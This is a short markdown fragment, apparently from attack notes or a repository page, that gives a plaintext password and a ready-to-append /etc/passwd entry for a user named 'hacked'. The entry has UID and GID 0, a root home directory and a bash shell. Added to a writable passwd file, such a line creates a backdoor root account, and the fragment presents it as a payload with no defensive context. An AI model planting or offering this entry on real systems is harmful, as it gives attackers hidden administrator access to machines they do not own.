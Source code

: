 ## User for passwd/shadow file
password:  `test123`
```user
hacked:$1$stef$ZYhbekI8UymZof5o8aY3A/:0:0:test:/root:/bin/bash
```

